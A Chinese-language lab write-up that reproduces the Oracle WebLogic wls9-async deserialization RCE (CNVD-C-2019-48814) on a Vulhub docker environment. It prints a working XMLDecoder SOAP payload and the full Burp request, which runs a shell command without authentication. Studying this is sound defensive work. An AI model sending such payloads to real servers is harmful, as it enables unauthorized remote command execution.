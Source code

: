 # CNVD-C-2019-48814



## 0x01 搭建漏洞环境

*漏洞介绍*

2019年4月17日，国家信息安全漏洞共享平台（CNVD）收录了由中国民生银行股份有限公司报送的Oracle WebLogic wls9-async反序列化远程命令执行漏洞（CNVD-C-2019-48814）。攻击者利用该漏洞，可在未授权的情况下远程执行命令。

*影响版本*

Oracle WebLogic Server10.3.6.0.0
Oracle WebLogic Server12.1.3.0.0
Oracle WebLogic Server12.2.1.1.0
Oracle WebLogic Server12.2.1.2.0

利用[Vulhub](https://github.com/vulhub/vulhub)里的`weblogic/CVE-2017-10271`的weblogic版本作为漏洞环境，启动命令为：
```
docker-compose up -d
```
等待一段时间，访问http://your-ip:7001/即可看到一个404页面，说明weblogic已成功启动。

我们可以先进入容器内部
```
[root@localhost CVE-2017-10271]# docker ps
CONTAINER ID        IMAGE               COMMAND              CREATED             STATUS              PORTS                              NAMES
dc73ec08c629        vulhub/weblogic     "startWebLogic.sh"   13 minutes ago      Up 13 minutes       5556/tcp, 0.0.0.0:7001->7001/tcp   cve-2017-10271_weblogic_1_e0c10faa85da
[root@localhost CVE-2017-10271]# docker exec -it dc73ec08c629 /bin/bash
root@dc73ec08c629:~/Oracle/Middleware# 
```

## 0x02 漏洞复现

POC
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java class="java.beans.XMLDecoder"><void class="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index="0"><string>/bin/sh</string></void><void index="1"><string>-c</string></void><void index="2"><string>touch  /tmp/jim</string></void></array><void method="start"/></void>
</java>    </work:WorkContext>   </soapenv:Header>   <soapenv:Body>      <asy:onAsyncDelivery/>   </soapenv:Body></soapenv:Envelope>
```

burp
```
GET / HTTP/1.1
Host: 172.16.200.221:7001
Accept-Encoding: gzip, deflate
SOAPAction: 
Accept: */*
User-Agent: Apache-HttpClient/4.1.1 (java 1.5)
Connection: keep-alive
content-type: text/xml
Content-Length: 814



<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">   <soapenv:Header> <wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java class="java.beans.XMLDecoder"><void class="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index="0"><string>/bin/bash</string></void><void index="1"><string>-c</string></void><void index="2"><string>touch  /tmp/jim</string></void></array><void method="start"/></void>
</java>    </work:WorkContext>   </soapenv:Header>   <soapenv:Body>      <asy:onAsyncDelivery/>   </soapenv:Body></soapenv:Envelope>
```

发送数据包 ，返回202 ，到服务器查看发现命令已经执行成功

![](./img/1.png)

![](./img/2.png)

复现成功

有人会认为没回显，可以使用dnslog，也可以写到文件里。

![](./img/3.png)
